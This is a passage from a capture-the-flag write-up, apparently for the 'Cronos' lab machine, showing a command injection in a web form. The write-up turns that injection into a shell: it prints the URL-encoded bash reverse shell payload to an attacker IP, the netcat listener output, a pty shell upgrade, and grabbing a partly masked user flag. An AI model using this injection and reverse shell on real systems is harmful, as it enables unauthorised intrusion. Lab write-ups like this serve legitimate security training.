     
    
    command=ls -l&host=/var/www
    

The response includes:

    
    
    drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 admin<br>
    drwxr-xr-x  2 www-data www-data 4096 Jul 27  2017 html<br>
    drwxr-xr-x 13 www-data www-data 4096 Apr  9  2017 laravel<br>
    

### Shell

To turn that command injection into a shell, I’ll just give it a reverse shell
payload:

    
    
    command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
    

And catch a shell on a `nc` listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:36196.
    bash: cannot set terminal process group (1388): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cronos:/var/www/admin$
    

I’ll do the shell upgrade:

    
    
    www-data@cronos:/var/www/admin$ python -c 'import pty;pty.spawn("bash")'
    python -c 'import pty;pty.spawn("bash")'
    www-data@cronos:/var/www/admin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443  # i entered fg
                                                           reset
    www-data@cronos:/var/www/admin$
    

And can grab `user.txt` from the only homedir:

    
    
    www-data@cronos:/home/noulis$ cat user.txt 
    51d23643************************
    

## Priv: www-data –> root
